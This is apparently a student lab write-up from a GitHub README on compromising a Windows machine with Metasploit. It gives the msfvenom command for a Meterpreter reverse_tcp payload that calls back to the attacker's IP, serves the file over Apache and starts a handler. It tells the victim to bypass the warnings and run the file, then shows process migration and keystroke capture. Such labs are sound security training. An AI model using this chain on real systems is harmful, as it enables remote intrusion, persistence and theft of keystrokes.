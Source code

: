 ## Compromising windows using Metasploit
Metasploit

##Compromising windows using Metasploit
##AIM:

To Compromise windows using Metasploit .
##DESIGN STEPS:
##Step 1:

Install kali linux either in partition or virtual box or in live mode
##Step 2:

Investigate on the various categories of tools as follows:
##Step 3:

Open terminal and try execute some kali linux commands
OUTPUT:

![280442420-54fd799e-0076-4a17-bf93-6dbc1aa42616](https://github.com/Bakkiyalakshmi29/Compromising-windows-using-Metasploit/assets/119406233/9fc9fe94-c417-44b6-a0fb-9f4c90fed9ce)


Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

![280442460-04ceff39-1fbe-4361-bca3-b851daad372f](https://github.com/Bakkiyalakshmi29/Compromising-windows-using-Metasploit/assets/119406233/5caed90d-eeaa-416d-8e6a-819f5c5bf90e)


copy the fun.exe into the apache /var/www/html folder ![280442496-ac2a0aa4-7bde-4410-a933-304df04ce31f](https://github.com/Bakkiyalakshmi29/Compromising-windows-using-Metasploit/assets/119406233/6b0acb22-92ad-40e0-beaa-8defd3a027c1)


Start apache server sudo systemctl apache2 start ![280442530-540832c2-a032-4a9a-848b-e14f860b2bd5](https://github.com/Bakkiyalakshmi29/Compromising-windows-using-Metasploit/assets/119406233/2fb50559-5938-49b4-b6be-9757cdb0a7ef)


Check the status of apache2 ![280442562-a57a2348-c4de-4fb2-a465-904b37cfb9b0](https://github.com/Bakkiyalakshmi29/Compromising-windows-using-Metasploit/assets/119406233/67a253d4-d257-4e81-8a28-499b5c0ce1ab)


Invoke msfconsole:
OUTPUT:

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit ![280442630-9aa19a10-610e-4743-83cd-f59011002911](https://github.com/Bakkiyalakshmi29/Compromising-windows-using-Metasploit/assets/119406233/35759e69-33d1-45be-a5c2-34598853cf5d)


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads. ![280442661-7ee54804-21c1-4c37-9aea-468f1c00dda1](https://github.com/Bakkiyalakshmi29/Compromising-windows-using-Metasploit/assets/119406233/475c09b3-75d2-4a11-a00f-3720c954e288)


Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit image ![280442689-410a522c-76c1-4167-be8e-802769ae87f8](https://github.com/Bakkiyalakshmi29/Compromising-windows-using-Metasploit/assets/119406233/58117e5f-64c9-435f-af76-7e45cf3be7f7)


To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156 ![280442732-0f965d4a-97b7-4797-9966-75188d713fc3](https://github.com/Bakkiyalakshmi29/Compromising-windows-using-Metasploit/assets/119406233/48b464f9-f146-41cc-aaed-534e02df701e)


The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted ![280442797-84ffdbba-6b4f-446e-8185-af7fef514caa](https://github.com/Bakkiyalakshmi29/Compromising-windows-using-Metasploit/assets/119406233/4f97250f-58f3-4d68-8123-b2bf58c57649)


keyscan_dump Shows the keystrokes captured so far ![280442832-f5f4a0a2-39cf-4592-9459-4840c30e9745](https://github.com/Bakkiyalakshmi29/Compromising-windows-using-Metasploit/assets/119406233/86d24b54-f783-482c-9f31-aa0fdc2172f9)

RESULT:

The Metasploit framework is used to compromise windows and is examined successfully.
